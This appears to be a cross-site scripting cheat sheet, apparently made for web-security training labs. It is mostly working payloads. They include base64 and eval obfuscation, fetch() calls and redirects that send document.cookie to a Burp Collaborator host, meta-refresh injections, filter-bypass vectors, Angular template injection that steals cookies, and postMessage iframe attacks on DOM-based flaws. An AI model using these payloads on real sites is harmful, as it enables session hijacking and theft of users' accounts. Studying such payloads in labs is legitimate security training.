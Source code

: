 ### Bypasses:

1. Generate base64 payload
    1. `echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64`
2. Insert the base64 payload into atob function
    1. `eval(atob("BASE64-PAYLOAD"))
    <script>eval(atob("BASE64-PAYLOAD"))</script>`

### Exploitation

use the fetch command: 

<script>
fetch(‘[https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net](https://your-subdomain-here.burpcollaborator.net/)’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>

<script> fetch(‘[https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/x’+document.cookie](https://your-subdomain-here.burpcollaborator.net/x%E2%80%99+document.cookie)); </script>

`<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />`

`<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />`

```
${alert(1)}
<svg><animatetransform%20§§=1>
<><img src=1 onerror=alert(1)>
\"-alert(1)}//
</script><img src=1 onerror=alert(document.domain)>
\';alert(1)//
http://xxxxx.com?&apos;-alert(414)-&apos;
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x;

//dom
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"> //web messages and a JavaScript URL

//angular
{{$on.constructor('alert(1)')()}}
{{$on.constructor('document.location=`http://<BURP-COLLABORATOR-URL>/?cookies=`+document.cookie')()}} //steal cookies with angular xss
```

# DOM-based vulns

Web messages:

- If the sender is not verified/checked.
    - `<iframe src="https://your-lab-id.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`
    - `<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`
